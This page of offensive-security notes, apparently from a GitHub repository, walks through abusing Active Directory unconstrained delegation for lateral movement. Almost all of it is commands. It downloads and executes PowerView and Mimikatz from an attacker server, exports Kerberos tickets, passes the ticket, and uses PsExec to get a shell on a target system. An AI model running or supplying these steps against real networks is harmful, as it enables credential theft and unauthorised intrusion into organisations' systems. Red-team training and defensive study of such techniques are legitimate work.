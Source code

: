 # <h1 align="center" id="heading">Unconstrained Delegation</h1>
Unconstrained Delegation is possible when the userAccountControl property TRUSTED_FOR_DELEGATION is present. I can use the following PowerView command to enumerate systems with this property set:
```powershell
IEX(New-Object System.Net.WebClient).DownloadString("http://<attacker_server>/PowerView.ps1");Get-DomainComputer -Unconstrained
```
I will then need to download and execute Mimikatz to export the TGT to a file in order to make better use of it. I can use the following commands to accomplish this task:
```powershell
wget http://<attacker server>/mimikatz64.exe -outfile C:\Windows\Tasks\mimikatz64.exe
```
```powershell
C:\Windows\Tasks\mimikatz64.exe
```
```powershell
sekurlsa::tickets /export
```
Once the ticket has been saved to disk, I can use the following command to PTT to the target system:
```powershell
kerberos::ptt <output file>.kirbi
```
```powershell
exit
```
I will now need to upload and execute PsExec with the following commands in order to achieve code execution on the target system:
```powershell
wget http://<attacker server>/PsExec64.exe -outfile C:\Windows\Tasks\PsExec64.exe
```
```powershell
C:\Windows\Tasks\PsExec64.exe \\<target system> cmd
```
If the attack is successful, I will recieve a session on the target and can verify that it is stable with the following command:
```console
whoami
```
There are very specific conditions within the environment that must be met in order for this attack to be successful. If those conditions are met, this can be a quick and easy win for lateral movement.
